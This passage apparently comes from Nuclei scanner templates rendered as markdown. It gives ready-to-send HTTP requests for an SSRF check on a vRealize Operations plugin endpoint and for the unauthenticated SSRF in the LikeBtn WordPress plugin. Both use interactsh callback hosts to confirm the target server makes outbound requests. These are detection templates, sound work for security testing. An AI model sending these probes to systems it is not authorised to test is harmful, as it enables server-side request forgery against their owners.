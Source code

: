 ### Step - 1

```
GET /ui/vropspluginui/rest/services/getvcdetails HTTP/1.1
Host: {{Hostname}}
Vcip: {{interactsh-url}}
Vcpassword: {{rand_base(6)}}
Vcusername: {{rand_base(6)}}
Reqresource: {{rand_base(6)}}

```

### Matchers

**Type - status**

- status
  1. 500

**Type - word**

- part - body
- words
  1. The server sent HTTP status code 200

---

# Like Button Rating < 2.6.32 - Unauthenticated Full-Read SSRF

## Description

- The LikeBtn WordPress plugin was vulnerable to Unauthenticated Full-Read Server-Side Request Forgery (SSRF).

- severity - high
- tags - cve,cve2021,wordpress,wp-plugin,wp,ssrf,wpscan,unauth,likebtn-like-button

## Requests

### Step - 1

```
@timeout: 10s
GET /wp-admin/admin-ajax.php?action=likebtn_prx&likebtn_q={{base64('http://likebtn.com.interact.sh')}}" HTTP/1.1
Host: {{Hostname}}

```

### Matchers
